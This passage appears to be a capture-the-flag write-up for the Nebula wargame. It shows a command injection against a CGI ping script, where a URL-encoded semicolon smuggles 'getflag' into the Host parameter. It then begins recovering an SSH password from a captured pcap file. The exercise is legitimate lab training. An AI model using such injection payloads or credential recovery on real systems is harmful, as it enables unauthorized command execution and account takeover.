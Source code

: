 ``` plain
Usage: ping [-LRUbdfnqrvVaAD] [-c count] [-i interval] [-w deadline]
            [-p pattern] [-s packetsize] [-t ttl] [-I interface]
            [-M pmtudisc-hint] [-m mark] [-S sndbuf]
            [-T tstamp-options] [-Q tos] [hop1 ...] destination
```

Looking in the source code, the program needs a Host parameter, otherwise it will display this usage information. I tested it by changing the URL to http://192.168.80.133:7007/index.cgi?Host=localhost and the ping was run successfully:

``` plain
PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_req=1 ttl=64 time=0.025 ms
64 bytes from localhost (127.0.0.1): icmp_req=2 ttl=64 time=0.028 ms
64 bytes from localhost (127.0.0.1): icmp_req=3 ttl=64 time=0.034 ms

--- localhost ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.025/0.029/0.034/0.003 ms
```

So it's now a matter of injecting the command we want this program to run. I first tried http://192.168.80.133:7007/index.cgi?Host=localhost;getflag to stack another command after the ping, but it didn't work. I had to URL encode the ; for it to work: http://192.168.80.133:7007/index.cgi?Host=localhost%3Bgetflag

``` plain
PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_req=1 ttl=64 time=0.017 ms
64 bytes from localhost (127.0.0.1): icmp_req=2 ttl=64 time=0.036 ms
64 bytes from localhost (127.0.0.1): icmp_req=3 ttl=64 time=0.045 ms

--- localhost ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.017/0.032/0.045/0.013 ms
You have successfully executed getflag on a target account
```

### Level 08

World readable files strike again. Check what that user was up to, and use it to log into flag08 account.

To do this level, log in as the level08 account with the password level08. Files for this level can be found in /home/flag08.

There is a capture.pcap file lying around for our convenience. I transfered it to my machine so I can look at it in Wireshark. Followed TCP Stream and saw a potential password:

{% img center /images/nebula/level8.png 'level8' 'level8' %}

So the user tried to log in to something called wwwbugs, which I assumed it's irrelevant to the challenge. I tried SSH'ing as flag08 with the password of *backdoor...00Rm8.ate*, but of course it didn't work. Next I tried removing the dots and keeping only the letters and numbers but that didn't work either. But I was fairly sure the password must be related to this string. When looking at the stream in hex, I thought there must be a pattern for those dots:
